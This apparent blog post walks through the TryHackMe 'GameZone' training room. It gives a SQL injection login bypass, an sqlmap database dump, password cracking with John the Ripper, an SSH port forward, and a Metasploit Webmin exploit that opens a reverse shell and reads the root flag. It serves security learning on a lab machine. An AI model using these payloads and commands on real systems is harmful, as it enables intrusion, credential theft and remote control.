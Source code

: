 ```yaml
---
slug: gamezone-walkthrough
title: TryHackMe - GameZone - Walkthrough
authors: bw
tags: [learning, gamezone, tryhackme, walkthrough]
---
```


This is a walkthrough for the [TryHackMe][thm] room: [GameZone][gz]. Let’s get started!

# Deploy the Machine
Deploy the machine and verify access through the website. Right away, we can answer our first question. You can do a reverse image search on the image they describe for the first answer, or if you know what game the character is from you can Google the name!

# Obtain access via SQLi
This task is pretty simple. Let’s just follow along.

Enter `' or 1=1 -- -` as our username and leave the password blank. We get redirected to a page and that is our answer!

![g1](/src/img/thm/gz/g1.webp)

# Using SQLMap
Here we are going to use SQLMap to exploit this form on the “Game Zone Portal” page.

Let’s start BurpSuite in order to intercept a request. Make sure you have your proxy turned on and intercept on, then enter anything into the search field.

![g2](/src/img/thm/gz/g2.png)

Let’s copy that request into a `.txt` file so we can pass it into SQLMap later.

We can now format our SQLMap command:

`sqlmap -r request.txt --dbms=mysql --dump`

Run that command and SQLMap will begin testing different methods.

Once complete, we see the output of two tables. We can grab the next 3 answers from this output.

![g3](/src/img/thm/gz/g3-1.png)

# Cracking a password with JohnTheRipper
Make sure to copy the hash to a file, so we can run JohnTheRipper against it.

The format for JohnTheRipper is the following:

```bash
john hash.txt --wordlist=$PATH/rockyou.txt --format=Raw-SHA256
```
Run this and we get our de-hashed password!

![g4](/src/img/thm/gz/g4.webp)

Now ssh into the machine and find the user flag!

![g5](/src/img/thm/gz/g5.png)

# Exposing Services with Reverse SSH Tunnels
Now let’s run ss to get socket information. Run the following on the victim machine:

`ss -tulpn`

We need to expose port 10000 to us. We can run the following command in a new terminal window on our local machine:

`ssh -L 10000:localhost:10000 <username>@<victim_ip>`

From here we can open up a new browser tab and navigate to `localhost:10000`

**NOTE:** Make sure to turn your BurpSuite proxy off if the page isn’t loading!

![g6](/src/img/thm/gz/g6-1.webp)

Login with our already known credentials to get the CMS version.

# Privilege Escalation with Metasploit
We can load up Metasploit on our attack machine (`msfconsole`) and search for an exploit:

`search webmin 1.58`

We find a Remote Code Execution (RCE) exploit! Let’s try that.

![g7](/src/img/thm/gz/g7.webp)

```bash
use 1
options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run
```
The session was created in the background, so lets open it: `sessions 1`

`whoami`
`cat /root/root.txt`

![g8](/src/img/thm/gz/g8.png)

# Review
That was a really fun room! It covered SQL injection, hash cracking, reverse SSH tunnels, and metasploit! I really enjoyed this room. Granted, it was easy and walked you through most of it, but we still learned a lot in the process!

# References
[TryHackMe][thm] | [GameZone][gz]

[thm]: https://tryhackme.com
[gz]: https://tryhackme.com/why-subscribe?roomCode=gamezone